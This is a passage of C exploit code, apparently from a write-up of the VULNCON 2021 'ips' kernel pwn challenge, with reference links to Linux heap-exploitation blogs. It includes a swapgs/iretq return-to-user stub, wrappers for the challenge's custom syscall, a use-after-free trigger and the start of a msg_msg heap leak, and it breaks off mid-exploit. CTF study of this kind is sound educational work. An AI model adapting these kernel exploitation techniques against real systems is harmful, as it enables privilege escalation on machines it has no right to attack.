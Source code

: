 ```c
            "swapgs;"
            "push 0;"
            "popfq;"
            "iretq;"
            );
    }
    void libxInit(){
        back2user = back2userImp;
        hook_segfault();
        saveStatus();
    }
#endif // 

/*
    Libx Init Ends
*/

#define ISP 548
typedef struct {
  int idx;
  unsigned short priority;
  char *data;} dt;
void add(char *buf, int priority){
    dt dt;
    dt.priority = priority;
    dt.data = buf;
    return syscall(ISP,1,&dt);
}
void del(int idx){
    dt dt;
    dt.idx = idx;
    return syscall(ISP,2,&dt);
}
void edit(int idx, char *buf){
    dt dt;
    dt.idx = idx;
    dt.data = buf;
    return syscall(ISP,3,&dt);

}
void copy(int idx){
    dt dt;
    dt.idx = idx;
    return syscall(ISP,4,&dt);
}
int main()
{   
    libxInit();
    
    char *atk = malloc(0x1000);
    memset(atk,'\1',0x1000);
    size_t *hook = &atk[0xfd0];
    char *ctx = calloc(1,0x200);

    // Step1 UAF
    memcpy(ctx,"Hi IPS!",8);
    add(ctx,0xffff);
    for(int i=0;i<16;i++){
        copy(0);
    }
    del(0);
    // LEAK KHeap-32
    int msgid1      = msgQueueCreate("/home/user/1");
```

[1]: https://elixir.bootlin.com/linux/latest/source/fs/seq_file.c
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips